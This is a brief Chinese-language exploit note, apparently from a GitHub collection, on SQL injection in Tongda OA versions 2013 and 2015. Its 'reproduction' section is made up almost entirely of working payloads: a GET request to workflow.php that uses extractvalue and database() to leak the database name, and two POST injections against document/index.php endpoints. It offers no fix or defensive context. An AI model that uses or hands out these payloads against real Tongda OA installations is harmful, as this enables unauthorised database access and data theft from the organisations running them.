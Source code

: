 ## 通达oa sql注入

### 漏洞影响

2013、2015版本

### 复现过程

poc

`http://url/general/mytable/intel_view/workflow.php?MAX_COUNT=15 procedure analyse(extrac tvalue(rand(),concat(0x3a,database())),1)&TYPE=3&MODULE_SCROLL=false&MODULE_ID=55&MODULE_ID=Math.random`

```bash
http://url/general/document/index.php/recv/register/turn    

post(_SERVER=&rid=1')
```

```bash
http://url/general/document/index.php/recv/register/insert  

post:   
title)values("'"^exp(if(1%3d2,1,710)))#=1&_SERVER=
```